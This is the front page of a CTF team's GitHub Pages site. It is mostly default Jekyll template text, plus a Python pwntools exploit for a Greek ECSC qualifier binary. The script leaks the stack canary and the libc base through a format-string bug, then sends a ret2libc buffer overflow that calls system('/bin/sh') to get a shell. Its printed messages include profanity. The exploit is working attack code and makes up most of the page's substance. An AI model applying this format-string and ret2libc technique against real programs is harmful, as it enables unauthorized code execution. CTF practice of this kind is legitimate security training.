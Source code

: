 ## Welcome to Fuzzer's Palace

You can use the [editor on GitHub](https://github.com/Fuzz3rCTF/Fuzz3rCTF.github.io/edit/master/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Greek ECSC QUALS-Pwn Challenge
```python
from pwn import *

def pwn():
        sys_off = 0x03ada0
        exit_off = 0x02e9d0
        bin_sh_off = 0x15ba0b
        p = lambda x : (x[2:].decode('hex'))[::-1]
        r = process('./bof6')
        r.recvuntil('Name: ')
        r.sendline('%x '*18)
        a = r.recvuntil(':')
        print a
        canary = hex(int(a[57:65], 16))
        libc=int(a[95:103],16)-1777664
        print "[+] Here is your cookie motherfucker: "+str(canary)
        print "[+] Libc base address SKIDO: "+hex(libc)
        payload = ""
        payload += "A"*64
        payload += p(canary)
        payload += "B"*12
        payload += p(hex(libc+sys_off))
        payload += p(hex(libc+exit_off))
        payload += p(hex(libc+bin_sh_off))
        r.sendline(payload)
        r.interactive()

pwn()
```

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/Fuzz3rCTF/Fuzz3rCTF.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

[Twitter](https://www.twitter.com/proud_skid/) 
